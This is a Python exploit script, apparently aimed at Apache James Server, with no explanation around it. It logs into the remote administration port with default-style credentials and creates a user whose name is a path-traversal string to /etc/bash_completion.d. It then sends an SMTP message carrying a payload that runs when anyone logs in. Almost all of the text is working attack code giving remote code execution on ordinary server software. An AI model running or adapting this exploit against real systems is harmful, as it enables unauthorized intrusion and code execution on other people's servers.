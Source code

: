 ```python

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]

def recv(s):
        s.recv(1024)
        time.sleep(0.2)

try:
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()

    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
except:
    print "Connection failed."
```
